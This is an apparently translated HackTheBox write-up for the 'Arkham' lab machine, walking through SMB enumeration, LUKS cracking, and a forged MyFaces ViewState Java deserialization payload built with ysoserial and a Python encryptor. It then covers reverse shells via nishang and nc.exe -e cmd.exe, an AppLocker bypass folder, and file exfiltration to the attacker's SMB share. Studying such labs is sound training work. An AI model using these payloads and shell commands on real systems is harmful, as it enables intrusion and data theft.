


Informations
----
    Ip : 10.10.10.130   Created by : MinatoTW
    Level : Medium      Base points : 30
    
Résumé : <br/>


The Arkham system, available on the platform [HackTheBox](https://www.hackthebox.eu/), was very interesting and fun. The level of difficulty was rather high, given that a good enumeration was more than enough. In addition, I learned a lot during the exploitation of the flaws in this system. <br />

- There is the `SMB` service open and we have read access rights in the` BatShare` folder. <br /> <br />
- In the `BatShare` folder there was a` ZIP` file with the name `appserver.zip` and contained a file` backup.img`. <br /><br />
- It was an encrypted `LUKS` type file, once decrypted with hashcat we have access to a file system, where there were` tomcat` configuration files. <br /><br />
- A particularly sensitive XML file that allowed us to see the algorithm used and the secret to decrypt the `ViewState`.<br /><br />
- In the system there was a flaw `Java Deserialization`, which allowed us to execute commands remotely on the system. <br /><br />
- Once the reverse shell was done, in the `Alfred` folder there was a backup.zip file, and containing a` OST` file, once this file was decrypted we were able to access the user `Batman`. <br/><br />
- The Batman user was part of the `Administrators` group in the` Active Directory` service, and there was a `UAC` flaw for precisely creating a disk as administrator.

Nmap Scan
----

According to the scan we have services, the `HTTP` which runs on` IIS` on port `80`, the` NETBIOS` also which runs on `135`, the` SMB` service which runs on `139 / 445`. And finally the service which runs in `8080`.

    PORT     STATE SERVICE       VERSION
    80/tcp   open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |   Supported Methods: OPTIONS TRACE GET HEAD POST
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows 98 netbios-ssn
    445/tcp  open  microsoft-ds?
    8080/tcp open  http-proxy
    | http-methods: 
    |   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
    |_  Potentially risky methods: PUT DELETE
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-title: Mask Inc.
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    [...SNIP...]
    Service Info: OSs: Windows, Windows 98; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98
    
SMB
----
If we try to connect with `SMBMAP`, we have access to a file system available in read rights, the command below shows us that we have access.

    root@0xEX75:~/htb/box/Arkham# smbmap.py -H 10.10.10.130 -u invaliduser
    [+] Finding open SMB ports....
    [+] Guest SMB session established on 10.10.10.130...
    [+] IP: 10.10.10.130:445        Name: 10.10.10.130                                      
            Disk                                                    Permissions
            ----                                                    -----------
            ADMIN$                                                  NO ACCESS
            BatShare                                                READ ONLY
            C$                                                      NO ACCESS
            IPC$                                                    READ ONLY
            Users                                                   READ ONLY
            
Let's try the connection and see the information on the `BatShare` folder, for the connection I will use` SMBCLIENT` to download the necessary files.

    root@0xEX75:~/htb/box/Arkham# smbclient \\\\10.10.10.130\\BatShare -U invaliduser -m SMB2
    WARNING: The "syslog" option is deprecated
    Enter invaliduser's password: 
    smb: \> ls
      .                                   D        0  Sun Feb  3 14:00:10 2019
      ..                                  D        0  Sun Feb  3 14:00:10 2019
      appserver.zip                       A  4046695  Fri Feb  1 07:13:37 2019

                    5158399 blocks of size 4096. 2005442 blocks available
    smb: \> mget appserver.zip
    Get file appserver.zip? y
    getting file \appserver.zip of size 4046695 as appserver.zip (1447,0 KiloBytes/sec) (average 1447,0 KiloBytes/sec)
    root@0xEX75:~/htb/box/Arkham# unzip appserver.zip 
    Archive:  appserver.zip
      inflating: IMPORTANT.txt           
      inflating: backup.img              
    root@0xEX75:~/htb/box/Arkham# ls
    appserver.zip  backup.img  IMPORTANT.txt

We extracted 2 files, the file `backup.img` and` IMPORTANT.txt`, let's try to see the file `backup.img` corresponds to what type of file and that functionality.

    root@0xEX75:~/htb/box/Arkham# file backup.img 
    backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
    
It is an `LUKS` file which is encrypted. `LUKS` (Linux Unified Key Setup) is the standard associated with the Linux kernel for disk encryption created by Clemens Fruhwirth. According to the information we must connect with a password use the command `kpartx` to mount this file system.

    root@0xEX75:~/htb/box/Arkham# kpartx -a -v backup.img

If we look in the files, we see that the system is mounted but protected by a password. I'm putting a photo right below.

[](https://image.noelshack.com/fichiers/2019/25/5/1561119833-capture-du-2019-06-21-14-23-33.png)

We have the choice to crack the password with a specific program or to use the `binwalk` command to extract files from the file system, I will show you both methods.

Méthode 1
----
For method number 1, we are going to crack the file system with hashcat there is not really a big complication, personally for the bruteforce attack took about 5 minutes. For the wordlist I greatly simplify the task because the Arkham box corresponds precisely to the `batman` series. So I created my wordlist by typing batman in `rockyou.txt`.

    root@0xEX75:~/htb/box/Arkham# cat /usr/share/wordlist/rockyou.txt|grep batman > wd_list
    root@0xEX75:~/htb/box/Arkham# hashcat -m 14600 -a 1 /dev/loop12 wd_list -o out.password
    root@0xEX75:~/htb/box/Arkham# cat out.password
    password : batmanforever
  
[](https://image.noelshack.com/fichiers/2019/25/5/1561124918-capture-du-2019-06-21-15-48-21.png)
    
Méthode 2
----
For method 2, we will use the `binwalk` program to extract the necessary files, so for this method it is useless to have a password because we will extract the files with` binwalk`.

    root@0xEX75:~/htb/box/Arkham# binwalk -e backup.img                                                                                                   

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    8542755       0x825A23        Zip archive data, at least v1.0 to extract, name: Mask/tomcat-stuff/
    8542831       0x825A6F        Zip archive data, at least v2.0 to extract, compressed size: 1006, uncompressed size: 2208, name: Mask/tomcat-stuff/tomcat-users.xml
    8543929       0x825EB9        Zip archive data, at least v2.0 to extract, compressed size: 1151, uncompressed size: 3498, name: Mask/tomcat-stuff/web.xml.bak
    8545167       0x82638F        Zip archive data, at least v2.0 to extract, compressed size: 709, uncompressed size: 1368, name: Mask/tomcat-stuff/context.xml
    8545963       0x8266AB        Zip archive data, at least v2.0 to extract, compressed size: 621, uncompressed size: 1172, name: Mask/tomcat-stuff/jaspic-providers.xml
    8546680       0x826978        Zip archive data, at least v2.0 to extract, compressed size: 367, uncompressed size: 832, name: Mask/tomcat-stuff/faces-config.xml
    8547139       0x826B43        Zip archive data, at least v2.0 to extract, compressed size: 2599, uncompressed size: 7678, name: Mask/tomcat-stuff/server.xml
    8549824       0x8275C0        Zip archive data, at least v2.0 to extract, compressed size: 18347, uncompressed size: 174021, name: Mask/tomcat-stuff/web.xml
    8568254       0x82BDBE        Zip archive data, at least v1.0 to extract, compressed size: 39, uncompressed size: 39, name: Mask/tomcat-stuff/MANIFEST.MF
    8568380       0x82BE3C        Zip archive data, at least v2.0 to extract, compressed size: 7353, uncompressed size: 7586, name: Mask/robin.jpeg
    8575806       0x82DB3E        Zip archive data, at least v2.0 to extract, compressed size: 105045, uncompressed size: 105374, name: Mask/me.jpg
    8680920       0x8475D8        Zip archive data, at least v2.0 to extract, compressed size: 687109, uncompressed size: 687160, name: Mask/mycar.jpg

The files have been successfully extracted, so if you look in the folder created by `binwalk` you will see that the data is present in the folder.

    root@0xEX75:~/htb/box/Arkham# cd _backup.img.extracted/
    root@0xEX75:~/htb/box/Arkham/_backup.img.extracted# cd Mask
    root@0xEX75:~/htb/box/Arkham/_backup.img.extracted/Mask# ls
    me.jpg  mycar.jpg  robin.jpeg  tomcat-stuff

HTTP - 8080
----
For this part we have information, you will see that in the file `web.xml.bak` this file will be the key to make our reverse shell in this system. So on port 8080 there is a rather interesting path, in the path `userSubscribe.faces`. If you look carefully in the source code of the page there is a `ViewState` and this part will be vulnerable to the` Java Deserialization` attack.
 
Let's go back to our file `web.xml.bak`, in this XML file there is very interesting information, there is the type of algorithm used and also the secret to precisely decipher` ViewState`.

    <context-param>
        <param-name>org.apache.myfaces.SECRET</param-name>
        <param-value>SnNGOTg3Ni0=</param-value>
    </context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
    </context-param>

The secret to encrypt our payload: `SnNGOTg3Ni0 =` in text: "JsF9876-". <br />
Algorithm used: `HmacSHA1`.

ViewState
----
We must first test if the password corresponds to the decryption of `ViewState`, I created a script in Python which will precisely decrypt` ViewState`.

    import hmac
    import base64
    from Crypto.Cipher import DES
    from hashlib import sha1

    def pad(s):
        return s + (block_size - len(s) % block_size) * chr(block_size - len(s) % block_size)

    block_size = DES.block_size
    key = "JsF9876-"

    viewstate = "wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE="
    viewstate = base64.b64decode(viewstate)

    obj = DES.new(key, DES.MODE_ECB)
    decrypted_viewstate = obj.decrypt(pad(viewstate))
    print(decrypted_viewstate)

If we launch the program:

    root@0xEX75:~/htb/box/Arkham# python test.py && echo -e
    �ur[Ljava.lang.Object;��s)lxpt1pt/userSubscribe.jspm�SK��9�^\iPU˘�s;

It looks like something completely unintellegible, it's absolutely normal because the data has been serialized, we still have information, we can see that `userSubscribe` runs in a` JSP` (Java Server Pages) file.

Création du Payload
----
It looks like something completely unintellegible, it's absolutely normal because the data has been serialized, we still have information, we can see that `userSubscribe` runs in a` JSP` (Java Server Pages) file.

For this blow I will use a specific program which is very useful, the tool is called `ysoserial`, it is a tool to create serialized files and to execute things in the remote system.

You can download the program [here] (https://github.com/frohoff/ysoserial), and then you will build the project with `mvn` and to launch the tool it is in the` target` sub-directory .

    root@0xEX75:~/htb/box/Arkham/ysoserial/target# java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    [...SNIP...]
    CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1                                                                                                
    [...SNIP...]
    
After looking for a while the type of payload suitable for the system was `CommonsCollections5`, we will try to send` ICMP` packets to our machine to test if the remote machine is sending packets to us.

    root@0xEX75:~/htb/box/Arkham/ysoserial/target# java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 'ping 10.10.15.92' > payload
    
It would then be necessary to convert that into `HMACSHA1` and then into` BASE64`, as I am in a good mood I create a script in Python just for you.

    #coding:utf-8

    import sys
    import hmac
    import base64

    from Crypto.Cipher import DES
    from hashlib import sha1

    class ARK_OBJ(object):
        def __init__(self, block_size=8):
            '''
                This function will
                handle the arguments in function __init__().
            '''
            try:
                self.args       = sys.argv[1]
                self.args_      = sys.argv[2]
            except IndexError as output_file:
                sys.exit("Usage: python %s <payload-file> <output>" %(sys.argv[0]))

            self.block_size = block_size

        def pad(self, plain):
            '''
                This function will handle the
                encryption of the data in function __pad()__.
            '''
            return plain + ((self.block_size - len(plain) % self.block_size) * chr(self.block_size - len(plain) % self.block_size)).encode('ascii')

        def reverse_dt(self):
            '''
                This function will allow us
                to manipulate with the hashes.
            '''
            with open(self.args, "rb") as self.serial:
                self.payload = self.serial.read()

            self.key          = b'JsF9876-'
            self.payload      = self.pad(self.payload)

            # This part we will encrypted in
            # hmac and then put it in base64 __reverse_dt()__.

            self.convert_des  = DES.new(self.key, DES.MODE_ECB)
            self.text_data    = self.convert_des.encrypt(self.payload)
            self.convert_hmac = hmac.new(self.key, self.text_data, sha1).digest()

            with open(self.args_, "wb") as write_file:
                write_file.write(base64.b64encode(self.text_data + self.convert_hmac))

    if __name__ == "__main__":
        q = ARK_OBJ()
        q.reverse_dt()
 
And then using the program is super simple, the first argument you must specify your file and the second argument your output file.
 
    root@0xEX75:~/htb/box/Arkham/ysoserial/target# python file.py payload output_file
    root@0xEX75:~/htb/box/Arkham/ysoserial/target# cat output_file
    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
 
The remote server sends packets back to us in our Linux system.
 
[](../ezgif-1-98fa1fa52fa5.gif)

Reverse Shell
----
For the reverse shell nothing simpler we will use the `nishang` tool that you can install [here](https://github.com/samratashok/nishang), you will simply modify the file` Invoke-PowerShellTcp.ps1 `in the` Shells` folder and put this line at the very end of the code.

```
[...SNIP...]
Invoke-PowerShellTcp -Reverse -IP Address Your_IP -Port Your_PORT
```

We just then have to send this powershell file to the server and run it so that the machine pops us a shell. (A fairly important criterion do not forget to use the ̀`SimpleHTTPServer` module to listen to an HTTP server.)

    root@0xEX75:~/htb/box/arkham/ysoserial/target# java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 'powershell -c iwr -uri http://10.10.14.18:8081/Invoke-PowerShellTcp.ps1 -out C:\Windows\System32\spool\drivers\color\ps.ps1' > payload
    
Then put the `payload` file in base64 using the script and send to the server with` BurpSuite`. Now perform the same manipulation for the execution of the `PowerShell` file (Invoke-PowerShellTcp.ps1).

    root@0xEX75:~/htb/box/arkham/ysoserial/target# java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 'powershell -c &"C:\Windows\System32\spool\drivers\color\ps.ps1"' > payload

And BOOM the shell successfully, we can continue our enumeration and go even further in the box.

    root@0xEX75:~/htb/box/arkham# nc -lvnp 9003
    Listening on [0.0.0.0] (family 0, port 9003)
    Connection from [10.10.10.130] port 9003 [tcp/*] accepted (family 2, sport 49725)
    Windows PowerShell running as user Alfred on ARKHAM
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\tomcat\apache-tomcat-8.5.37\bin> cd /users/alfred/desktop
    PS C:\users\alfred\desktop> Get-Content user.txt|Measure-Object -Character

    Lines Words Characters Property
    ----- ----- ---------- --------
                        32
    
Alfred > Batman
----
In `Downloads`>` Backups` there is a `zip` file lying around, this is probably the way to be` Batman`, I will create a `SMB` service temporarily to transfer the file, I will use` smbserver.py`.

    root@0xEX75:~/htb/box/arkham/backups# smbserver.py -smb2support share . -username 0x -password 0x
    Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    
Then in the Windows machine, we will connect and send the `zip` file to our physical machine.

    PS C:\users\alfred\downloads\backups> net use \\10.10.14.18\share /u:0x 0x
    The command completed successfully.
    PS C:\users\alfred\downloads\backups> copy backup.zip \\10.10.14.18\share\

The copy command allows you to copy a file, but we, as the destination we put a path `UNC` to send the file to our physical machine.

    [...SNIP...]
    [*] User ARKHAM\0x authenticated successfully
    [*] 0x:::4141414141414141:e911c66c4ff6486b5831be2acc7c5cb4:010100000000000080740119db4dd501ef0b624cdc41b241000000000100100042006900790066004e006b004d005700020010007400490053004a00740042006f004d000300100042006900790066004e006b004d005700040010007400490053004a00740042006f004d000700080080740119db4dd50106000400020000000800300030000000000000000000000000200000c2811e755ba86c55bac3a1f160ed584827efe6d34798adc974a929d83a0f3d160a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003800000000000000000000000000

And the file is present in our machine, then extract it with unzip and see the resources of the archive. (It may be that the file cannot be unzipped, check that the file has been sent 100%).

    root@0xEX75:~/htb/box/arkham/backups# unzip backup.zip 
    Archive:  backup.zip
      inflating: alfred@arkham.local.ost
 
The extraction works perfectly, now let's take a closer look at this file, it has the extension `OST` (Offline Storage Table). If we take a look at the file type ..
 
    root@0xEX75:~/htb/box/arkham/backups# file alfred@arkham.local.ost 
    alfred@arkham.local.ost: Microsoft Outlook email folder
    
To read this file, we must install the `OST File Viewer` tool ([LINK] (https://www.nucleustechnologies.com/download-ost-viewer.php)), unfortunately I have not found a program that works under Linux so I installed Windows on a virtual machine.

When opening the program select the OST file, and go to the `Drafts` and BINGOO section, you have the password for the user` Batman`.



Username : `batman` <br />
Password : `Zx^#QZX+T!123`

Thereafter we must use `PowerShell` for authentication so nothing difficult.

    PS C:\users\alfred\documents> $password = ConvertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
    PS C:\users\alfred\documents> $Cred = New-Object System.Management.Automation.PSCredential ("Batman", $password)

We have set the identification identifications, we only have the reverse shell to be `Batman`. We will transfer `nc.exe`.

    PS C:\users\alfred\documents> iwr -uri http://10.10.14.18:8083/nc.exe -out C:\Windows\System32\spool\drivers\color\nc.exe
    
Now let's use the `Invoke-Command` command to use the credentials and the` nc.exe` file, let's test first if it returns the user `Batman` with the` whoami` command.

(You are probably wondering why in the folder `C: \ Windows \ System32 \ spool \ drivers \ color \`? Because the system uses `AppLocker` therefore blocks malicious programs, but on the other hand AppLocker may not check not certain folder like `C: \ Windows \ System32 \ spool \ drivers \ color \`. Here is a good [LIST] (https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md) path.)

    PS C:\users\alfred\documents> Invoke-Command -ComputerName ARKHAM -Credential $Cred -ScriptBlock { whoami }
    arkham\batman
    
Bingoooo, we can execute commands as Batman, only the reverse shell is left now with the `netcat` tool, the` -ScriptBlock` option allows to execute script blocks, so to execute code.

    PS C:\Windows\System32\spool\drivers\color> Invoke-Command -ComputerName ARKHAM -Credential $Cred -ScriptBlock { C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.14.18 9008 }
    
And finally we have shell access as Batman.

    root@0xEX75:~/htb/box/arkham# nc -lvnp 9008
    Listening on [0.0.0.0] (family 0, port 9008)
    Connection from [10.10.10.130] port 9008 [tcp/*] accepted (family 2, sport 49746)
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\Batman\Documents>whoami
    arkham\batman

Batman > Administrator
----
To be administrator in the system it is very easy nothing difficult, if we look a little at the permissions of the user you will see something very interesting.

    C:\Users>net user batman
    net user batman
    User name                    Batman
    Full Name                    
    Comment                      
    User's comment               
    Country/region code          001 (United States)
    Account active               Yes
    Account expires              Never

    Password last set            2/3/2019 9:25:50 AM
    Password expires             Never
    Password changeable          2/3/2019 9:25:50 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   8/8/2019 2:44:41 AM

    Logon hours allowed          All

    Local Group Memberships      *Administrators       *Remote Management Use # GROUPS ADMINISTRATOR
                                 *Users                
    Global Group memberships     *None                 
    The command completed successfully.

We can see that I am part of the `Administrators` group so I have a lot more privilege in the system. I simply created a disc and then select the name of the disc in question.

    C:\Users\Batman\Documents>net use p: \\10.10.10.130\c$
    net use p: \\10.10.10.130\c$
    The command completed successfully.

    C:\Users\Batman\Documents>p:

    P:\>dir
     Volume in drive P has no label.
     Volume Serial Number is FA90-3873

     Directory of P:\

    02/03/2019  06:30 PM    <DIR>          inetpub
    09/15/2018  12:49 PM    <DIR>          PerfLogs
    02/03/2019  09:29 AM    <DIR>          Program Files
    09/15/2018  02:36 PM    <DIR>          Program Files (x86)
    02/01/2019  09:56 AM    <DIR>          tomcat
    02/03/2019  06:54 PM    <DIR>          Users
    02/03/2019  06:09 PM    <DIR>          Windows
                   0 File(s)              0 bytes
                   7 Dir(s)   8,676,765,696 bytes free

    P:\>cd users
    P:\Users>cd administrator
    P:\Users\Administrator>cd desktop
    P:\Users\Administrator\Desktop>more root.txt
    636783f913109f[...SNIP...]

And root.txt obtained.


Conclusion
----
Here we are, at last we come to the end of this article which, I hope, will have you more. A really interesting and concretely quite original box, I advise you to read quietly, if you have any questions, don't hesitate, I will answer you without worries.
